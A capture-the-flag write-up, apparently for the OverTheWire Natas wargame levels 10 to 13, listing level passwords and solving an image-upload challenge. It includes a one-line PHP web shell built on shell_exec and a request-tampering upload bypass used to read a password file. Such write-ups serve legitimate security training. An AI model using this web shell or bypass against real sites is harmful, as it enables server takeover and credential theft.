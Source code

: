 ```
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

### natas11

Ight. This one was rough. I had to get my friend explain this one to me. He knows stuff.

```
EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
```

### natas12

Its an image uploader. Ight. So I could read the source code, but I am going to just try a few things.

Below is my standard PHP Cmd

```php
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```

Lets make a php file and try to upload.

Oh no. It gets renamed to a name with random strings.jpg.

If I look at the request, I can change it before it gets sent.

![image-20200911203346630](../../../Users/Admin/Downloads/natas12.png)

If I rename it to hello.php and go to `/upload/hello.php?e=whoami` I get back the username of the current user. With that I can read `/etc/natas_webpass/natas13`

```
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

### natas13

We are met with the same page but with `For security reasons, we now only accept image files!`

We check the source code and notice that exif_imagetype is called. A built in PHP function that checks the image exif info. We know this info as the magic byte. 

```php
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
    
    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?> 
```

